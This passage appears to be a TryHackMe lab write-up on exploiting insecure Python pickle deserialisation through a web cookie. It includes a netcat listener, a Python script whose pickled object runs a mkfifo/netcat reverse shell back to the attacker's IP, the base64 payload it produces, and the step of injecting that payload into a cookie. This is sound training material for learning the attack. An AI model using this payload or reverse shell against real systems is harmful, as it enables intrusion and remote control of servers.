 - Now, reverse shell is applied by using netcat command so that our system will start listening for incoming network connections on port 4444.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

**[+] `l`**: Initiates Netcat in listen mode. 

**[+] `v`**: Enables verbose mode, providing more detailed information about the connections.

**[+] `n`**: Do not resolve hostnames or port numbers. In numeric-only mode, addresses and ports will be printed numerically like 5555 or 7666 and not symbolically.

**[+] `-p 4444`**: Specifies the port number (4444 in this case) that Netcat will listen on.

- In this case, tryhackme has created a file pythons to generate serialised encoded64 data for us to RCE

```python
import pickle
import sys
import base64
//connect back to a machine with the IP address is YOUR_TRYHACKME_OPENVPN_IP on port 4444. 
command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_OPENVPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```

- **`rm /tmp/f`**: Deletes any existing file named 'f' in the **`/tmp`** directory.
- **`mkfifo /tmp/f`**: Creates a named pipe (FIFO) named 'f' in the **`/tmp`** directory.
- **`cat /tmp/f | /bin/sh -i 2>&1`**: Reads the content from the named pipe 'f' and pipes it to a shell (**`/bin/sh`**) with an interactive (**`i`**) option. The **`2>&1`** part redirects standard error (stderr) to standard output (stdout).
- **`| netcat YOUR_TRYHACKME_OPENVPN_IP 4444`**: Pipes the output of the shell to the **`netcat`** command, which establishes a connection to the **`YOUR_TRYHACKME_OPENVPN_IP`** on port (4444).
- **`> /tmp/f`**: Redirects the output of the netcat command back into the named pipe 'f'. This allows bidirectional communication between the shell and the netcat listener.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 pickleme.py 
b'gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuMTcuMjQuNjYgNDQ0NCA+IC90bXAvZpSFlFKULg=='
```

- Next we copy the value and pasted it in cookie encodedPayload and refresh the page
- As we can see, we can stablish a connection to our OPENVPN machine IP on port 4444 from target IP which is website.
